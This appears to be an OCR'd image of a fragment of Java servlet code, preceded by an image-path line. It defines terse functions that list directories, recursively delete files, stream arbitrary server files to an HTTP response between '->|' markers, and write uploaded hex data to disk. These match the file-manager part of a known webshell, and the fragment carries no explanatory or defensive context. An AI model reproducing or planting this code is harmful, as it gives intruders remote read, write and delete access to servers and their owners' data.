        void BB(String s, StringBuffer sb) throws Exception {  
           File oF = new File(s), l[] = oF.listFiles();  
         String sT, sQ, sF = "";  
            java.util.Date dt;  
          SimpleDateFormat fm = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");  
         for (int i = 0; i < l.length; i++) {  
              dt = new java.util.Date(l[i].lastModified());  
               sT = fm.format(dt);  
               sQ = l[i].canRead() ? "R" : "";  
               sQ += l[i].canWrite() ? " W" : "";  
               if (l[i].isDirectory()) {  
                   sb.append(l[i].getName() + "/\t" + sT + "\t" + l[i].length()+ "\t" + sQ + "\n");  
              } else {  
                   sF+=l[i].getName() + "\t" + sT + "\t" + l[i].length() + "\t"+ sQ + "\n";  
               }  
           }  
           sb.append(sF);  
       }  

       void EE(String s) throws Exception {  
           File f = new File(s);  
          if (f.isDirectory()) {  
               File x[] = f.listFiles();  
               for (int k = 0; k < x.length; k++) {  
                   if (!x[k].delete()) {  
                      EE(x[k].getPath());  
                   }  
               }  
           }  
          f.delete();  
    }  

      void FF(String s, HttpServletResponse r) throws Exception {  
           int n;  
         byte[] b = new byte[512];  
         r.reset();  
         ServletOutputStream os = r.getOutputStream();  
           BufferedInputStream is = new BufferedInputStream(new FileInputStream(s));  
           os.write(("->" + "|").getBytes(), 0, 3);  
          while ((n = is.read(b, 0, 512)) != -1) {  
               os.write(b, 0, n);  
         }  
       os.write(("|" + "<-").getBytes(), 0, 3);  
           os.close();  
         is.close();  
      }  

      void GG(String s, String d) throws Exception {  
         String h = "0123456789ABCDEF";  
          File f = new File(s);  
          f.createNewFile();  
         FileOutputStream os = new FileOutputStream(f);  
          for (int i = 0; i < d.length(); i += 2) {  
            os.write((h.indexOf(d.charAt(i)) << 4 | h.indexOf(d.charAt(i + 1))));  
         }  
        os.close();  
      }  
